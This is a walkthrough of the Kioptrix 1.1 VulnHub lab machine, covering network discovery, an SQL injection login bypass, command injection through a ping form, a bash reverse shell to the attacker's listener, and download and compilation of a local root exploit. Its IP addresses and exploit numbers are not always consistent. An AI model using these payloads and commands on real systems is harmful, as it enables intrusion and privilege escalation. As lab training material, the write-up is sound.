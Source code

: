 # Kioptrix 1.1 Writeup

This vulnerable virtual machine was obtained from [VulnHub](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/ "URL for kioptrix 1.1"). The kioptrix series are intended for use with VMWare, but by following the instructions found [here](http://hypn.za.net/blog/2017/07/15/running-kioptrix-level-1-and-others-in-virtualbox/ "running kioptrix in VirtualBox"), you can get the virtual machines to work with VirtualBox.

## Information gathering

After booting up the attacker and vulnerable virtual machines, we can use the `ifconfig` and `netdiscover` commands to find the IP address of both of them. Running `ifconfig` will get us the IP address of the attacker machine, and from that, we can scan the local subnet with `netdiscover -i eth0 -r 10.0.2.0/24` to find the IP address of the vulnerable machine. We scan the local subnet because we know that VirtualBox assigns IPs in that subnet, but the command can be changed to be `/12` or something else depending on the range you wish to scan. The arguments to the `netdiscover` command specify that the network device `eth0` should be used for sniffing for ARP packets, and that the range to scan should be the IP addresses included in the `10.0.2.0/24` subnet, which are `10.0.2.1 - 10.0.2.254`.

![](images/ifconfig.png "ifconfig shows us that our attacker's IP address is 10.0.2.5")

![](images/netdiscover.png "netdiscover -i eth0 -r 10.0.2.0/24 shows us that there are four possible IP addresses for our target")

`netdiscover` presents us with four possible IP addresses for our target machine, and now we must narrow down the specific one that we will be exploiting. Since we know that our target is running as virtual machine on VirtualBox, that narrows the options down to `10.0.2.3` and `10.0.2.6`, because VirtualBox typically uses the `08:00:27` MAC address prefix. After `ping`ing both of the addresses, it is determined that `10.0.2.6` is the target, because it replies to the pings.

## Scanning

Now that we know what our target is, we will enumerate the ports that are open to try to see if any of them have vulnerable services running. The tool we'll use for that is `nmap`. Running `nmap -sV 10.0.2.4` will tell us the specific versions of the services running on the TCP ports, if possible, as compared to a normal `nmap 10.0.2.4`, which will just tell us the services that are running.

![](images/nmap.png "nmap -sV 10.0.2.4 shows us which services are running on the machine")

We can see that the target has several ports open, and we'll run down the list to try to see which ones we can exploit.

## Gaining Access

Using the `searchsploit` command, we can look for exploits that the target could be vulnerable to. Running `searchsploit openssh` shows us all of the exploits available for OpenSSH from [exploit-db](https://www.exploit-db.com/ "exploit-db"), but unfortunately, none of them are of interest to us. We're looking for something that can give us remote code execution, and the only one found that does that is for OpenSSH 3.5p1, while the version on the target is more recent than that.

![](images/openssh.png "searchsploit openssh shows us the available exploits for OpenSSH")

Because we didn't have any luck with port 22, we'll move on to considering the next one on the list, port 80. Since http is running on this port, we can try to navigate to the IP address in a web browser and see what we can find. Loading up `http://10.0.2.4` in Firefox gives us a login screen for remote system administration. This seems like a promising attack vector.

![](images/login.png "http://10.0.2.4 loaded in Firefox")

Since MySQL is also running on the target machine, it's likely that this login form is using SQL, and we can check to see if it's vulnerable to an SQL injection. A simple login SQL query would be something like `SELECT id FROM Users WHERE Username = 'InputUsername' AND Password = 'InputPassword'`, so we can manipulate the username and password parameters to get a valid SQL statement that will let us log in. If we use `' OR ''='` for both the username and the password, then the SQL query becomes `SELECT id FROM Users WHERE Username = '' OR ''='' AND Password = '' OR ''=''`, which will essentially check if `''=''` evaluates to true, which it does, allowing us to bypass proper authentication. This will log us in as the first user in the user table, and we now have access to the administrative web interface.

![](images/console.png "Using ' OR ''=' for both the username and password logs us in to the admin console")

This interface provides a text box where we can input an IP address and the target will ping it and provide the results for us.

![](images/ping.png "Result of putting 8.8.8.8 into the text box and submitting")

Interestingly enough, the results that are provided seem to be the same as if the Unix command `ping -c 3 8.8.8.8` was used. Could it be possible that the web interface is just throwing what we type into the text box into the command and executing it on the server? Let's test out this theory by putting `8.8.8.8; whoami` into the field. This will allow us to run the `whoami` command after the server pings 8.8.8.8, and if our hypothesis is correct, we'll see the user that the web interface is running the command as.

![](images/whoami.png "Result of putting 8.8.8.8; whoami into the text box and submitting")

Looks like the idea was right. We can see that after the ping results, there's a line for "apache," meaning that this is who the commands are running under, and that we have remote command execution on the machine. However, we don't have root access yet, which is our main objective. Additionally, our access is limited to just sending commands, we don't have a completely interactive way of communicating with the target machine. These issues are what we will solve in the next step.

## Elevating access

Let's try to achieve an interactive way to talk to the target machine. Since we can execute a command with the administrative web console, we can use `nc` on our attacking machine and `bash` on the console to start an interactive session. The command `nc -lvp 4444` on our attacking system allows us to listen on port 4444 for incoming connections and provide verbose output. After this is listening, we can submit `; bash -i >& /dev/tcp/10.0.2.5/4444 0<&1` into the text box and this will connect our two machines with an interactive session. The arguments to the `bash` command will run a new interactive instance of bash with standard output and standard error being redirected to a TCP connection to the chosen IP address and port, in this case our attacker's VM and the port that `nc` is listening on, and that standard input will be read through this connection.

![](images/connected.png "The two machines now have an interactive session")

After submitting this, the web browser will display a constantly loading page and our `nc` listener will now have a `bash` shell waiting for us.

Now that we're connected to the target machine, we need to find a way to gain root access, as the apache user we're logged in as doesn't have sudo or root privileges by default. We're going to see what directory we're currently in with the `pwd` command, and we'll use `ls -l` to see if we're allowed to write to any files in our current directory. Then, we'll attempt to find out what specific operating system the target machine is running with `uname -a`, `lsb_release -a`, and `cat /etc/*-release` to see if there are any useful local exploits we can run.

![](images/info.png "Information gathered about our target system")

From the results of these commands, we can see that we're currently in the /var/www/html directory, where we are not allowed to write to any files, and that the target is running CentOS 4.5. We can use the `searchsploit` command again on our attacking machine to see if we can find any local privilege escalation exploits that we can use. Running `searchsploit centos local -o` will show all of the local exploits available for CentOS, with the `-o` flag allowing the exploit names to be fully shown. While it may not look pretty, it will help us find the exploit we want easier.

![](images/centos.png "searchsploit centos local -o shows us the available local exploits for CentOS")

We can see that there are a few local privilege escalation exploits to choose from, and after trying them all, I've found that exploits/linux/local/9545.c is the one that works best right out of the box. Now, we need to get the exploit loaded on the target machine.

Since the apache user can't write to the current directory it's in, we will use the /tmp directory, which can be written to and read by any user. A simple `cd /tmp` will take us there. We can then use the `wget` command to download the exploit source code from [exploit-db](https://www.exploit-db.com/raw/9542/ "The source code for the exploit we're using") onto the target. The specific command we'll use will be `wget --no-check-certificate http://www.exploit-db.com/raw/9542 -O exploit.c`, which will bypass certificate verification (you shouldn't do this unless you are convinced of the site's authenticity or you don't care about the validity of its certificate), and download the contents of the page into the exploit.c file.

Once the exploit is downloaded, we can use `gcc` to compile it because we just downloaded exploit source code written in C. After you compile the exploit with `gcc exploit.c`, there will be an executable file called a.out, and now you can run the exploit with `./a.out`. We can see that the exploit worked because our prompt symbol changed from `$` to `#`, and if we run `whoami`, we can see that we are now root!

![](images/escalation.png "Downloading and executing the exploit")
